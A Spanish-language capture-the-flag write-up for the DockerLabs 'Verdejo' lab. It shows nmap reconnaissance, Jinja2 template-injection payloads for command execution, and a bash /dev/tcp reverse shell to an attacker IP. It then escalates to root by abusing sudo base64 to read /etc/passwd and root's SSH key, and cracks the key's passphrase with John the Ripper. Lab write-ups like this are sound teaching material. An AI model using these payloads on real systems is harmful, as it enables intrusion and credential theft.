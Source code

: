 ## 1. Reconocimiento Inicial con Nmap

Realizamos un escaneo exhaustivo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos proporciona una visión general de los servicios expuestos y posibles vulnerabilidades asociadas a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `22/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 22 (estándar para SSH) está abierto, lo que indica que podemos intentar acceder al sistema por esta vía si encontramos credenciales.
*   `80/tcp open http Apache httpd 2.4.59`: El puerto 80 está abierto y ejecuta un servidor web Apache. **La página por defecto de Apache no revela información útil inicialmente.**
*   `8089/tcp open http Werkzeug httpd 2.2.2 (Python 3.11.2)`: El puerto 8089 está abierto y ejecuta un servidor web `Werkzeug` con Python. Este es un punto de interés, ya que las aplicaciones web personalizadas a menudo contienen vulnerabilidades.

## 2. Enumeración Web y Descubrimiento de SSTI

Nos centramos en el puerto 8089, ya que es el servicio más prometedor para encontrar una vulnerabilidad.

### 2.1. Exploración del Puerto 8089

Al acceder a `http://<IP_DEL_OBJETIVO>:8089/`, encontramos una página web simple con un campo de entrada. Al introducir texto como "Hola", la página responde con "Hola Hola". Este comportamiento, donde la entrada del usuario se repite directamente en la salida, es un fuerte indicador de una posible vulnerabilidad de Server-Side Template Injection (SSTI).

![P_8089.png](https://github.com/WebReconSpider/the-hackbook/blob/main/Ejercicios/DockerLabs/2Facil/Imagenes/Verdejo_P_8089.png)

### 2.2. Confirmación de SSTI con Jinja2

Para confirmar la vulnerabilidad SSTI y determinar el motor de plantillas, probamos una expresión matemática simple dentro de la sintaxis de plantillas de Jinja2, que es común en aplicaciones Python como las que usan Werkzeug.

Introducimos `{{7*7}}` en el campo de entrada. Si la página devuelve `49`, esto confirma la vulnerabilidad SSTI y que el motor de plantillas es Jinja2. Esto significa que la aplicación web procesa la entrada del usuario a través de un motor de plantillas en el servidor sin una validación adecuada, permitiendo la inyección de código de plantilla malicioso.

![Verdejo_49](https://github.com/WebReconSpider/the-hackbook/blob/main/Ejercicios/DockerLabs/2Facil/Imagenes/Verdejo_49.png)

## 3. Obtención de Reverse Shell (RCE)

Una vez confirmada la SSTI, podemos explotarla para ejecutar comandos en el sistema y obtener una shell inversa.

### 3.1. Ejecución de Comandos Arbitrarios

Utilizamos una carga útil (payload) de Jinja2 que nos permite ejecutar comandos del sistema operativo. Este payload utiliza la capacidad de Jinja2 para acceder a objetos globales de Python y ejecutar funciones del módulo `os`.

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__(\'os\').popen(\'id\').read() }}
```

Al introducir este payload en el campo de entrada, la página debería devolver la salida del comando `id`, confirmando la ejecución de comandos.

### 3.2. Ejecución de Reverse Shell

Ahora que podemos ejecutar comandos, inyectamos un payload de reverse shell para obtener una conexión interactiva a nuestra máquina atacante.

**Payload de Reverse Shell (Jinja2):**

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__(\'os\').popen(\'bash -c \\\'bash -i >& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1\\\'\').read() }}
```

*   `os.popen()`: Ejecuta un comando en una subshell.
*   `bash -c '...'`: Ejecuta un comando bash.
*   `bash -i`: Inicia una shell interactiva.
*   `>& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1`: Redirige la entrada y salida estándar a una conexión TCP a la IP de nuestra máquina atacante en el puerto 443.

**En la Máquina Atacante:**

Antes de introducir el payload, configuramos un `netcat` listener en nuestra máquina atacante para recibir la conexión entrante en el puerto 443.

```bash
nc -lvnp 443
```

Después de configurar el listener, introducimos el payload en el campo de entrada de la página web. Esto ejecutará el código y nos dará una shell inversa en nuestra máquina atacante. Confirmamos que estamos como el usuario `www-data`.

## 4. Escalada de Privilegios

Una vez que tenemos una shell como `www-data`, el objetivo es escalar privilegios a `root`.

### 4.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario actual con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(root) NOPASSWD: /usr/bin/base64`

Esto significa que el usuario actual puede ejecutar el binario `/usr/bin/base64` como `root` sin necesidad de introducir su contraseña. El comando `base64` se utiliza para codificar y decodificar datos, y puede ser abusado para leer o escribir archivos con privilegios elevados.

### 4.2. Abuso de `base64` para Modificar `/etc/passwd`

La técnica para escalar privilegios con `base64` cuando tiene permisos `NOPASSWD` en `sudo` implica modificar el archivo `/etc/passwd` para eliminar la contraseña del usuario `root`. Esto nos permitirá iniciar sesión como `root` sin contraseña.

1.  **Leer `/etc/passwd`:** Primero, leemos el contenido de `/etc/passwd` utilizando `base64` con `sudo` y lo decodificamos.

    ```bash
    LFILE=/etc/passwd
    sudo base64 "$LFILE" | base64 --decode
    ```

    Esto nos mostrará el contenido del archivo, incluyendo la línea de `root`:
    `root:x:0:0:root:/root:/bin/bash`

2.  **Modificar el contenido:** Copiamos el contenido de `/etc/passwd` a un archivo temporal en nuestra máquina atacante (o en el sistema comprometido si tenemos permisos de escritura en algún directorio). Luego, eliminamos la `x` de la entrada de `root`. La línea debe cambiar a `root::0:0:root:/root:/bin/bash`.

3.  **Codificar el contenido modificado:** Codificamos el archivo modificado de nuevo a Base64 y lo guardamos en un archivo.

4.  **Sobrescribir `/etc/passwd` con `base64`:** Utilizamos `base64` con `sudo` para decodificar el contenido modificado y redirigir la salida al archivo `/etc/passwd`.
```bash
sudo -u root /usr/bin/base64 --decode passwd.txt > /etc/passwd
```

Como no podemos modificar este archivo vamos a buscar la clave de ssh

### 4.3. Escalada de Privilegios Alternativa (Clave SSH)

Si la modificación de `/etc/passwd` no es posible o preferible, otra vía para escalar privilegios es buscar claves SSH privadas del usuario `root`.

1.  **Leer la clave SSH privada de `root`:** Utilizamos `base64` con `sudo` para leer el archivo `id_rsa` de `root` y lo decodificamos.

    ```bash
    sudo -u root base64 /root/.ssh/id_rsa | base64 --decode
    ```

    Esto nos devolverá el contenido de la clave SSH privada de `root`.

2.  **Guardar la clave:** Copiamos el contenido de la clave SSH a un archivo local en nuestra máquina atacante (por ejemplo, `id_rsa_root`).

3.  **Establecer permisos:** Las claves SSH privadas requieren permisos estrictos para ser utilizadas.

    ```bash
    chmod 600 id_rsa_root
    ```

4.  **Intentar conexión SSH como `root`:** Intentamos conectarnos vía SSH como `root` utilizando la clave privada.

    ```bash
    ssh -i id_rsa_root root@<IP_DEL_OBJETIVO>
    ```

    La clave está protegida con una frase de contraseña.

### 4.4. Cracking de la Frase de Contraseña

Si la clave SSH está protegida con una frase de contraseña, podemos intentar crackearla utilizando `ssh2john` y `john` (John the Ripper).

1.  **Convertir la clave a formato John:**

    ```bash
    ssh2john id_rsa_root > key.hash
    ```

2.  **Crackear la frase de contraseña:**

    ```bash
    john key.hash --wordlist=/path/to/wordlist/rockyou.txt
    ```

    Una vez crackeada, `john --show key.hash` nos mostrará la frase de contraseña (por ejemplo, `honda1`).

3.  **Conexión SSH con la frase de contraseña:** Volvemos a intentar la conexión SSH con la clave y la frase de contraseña obtenida.

    ```bash
    ssh -i id_rsa_root root@<IP_DEL_OBJETIVO>
    ```

    Una vez dentro, `whoami` confirmará el acceso como `root`.
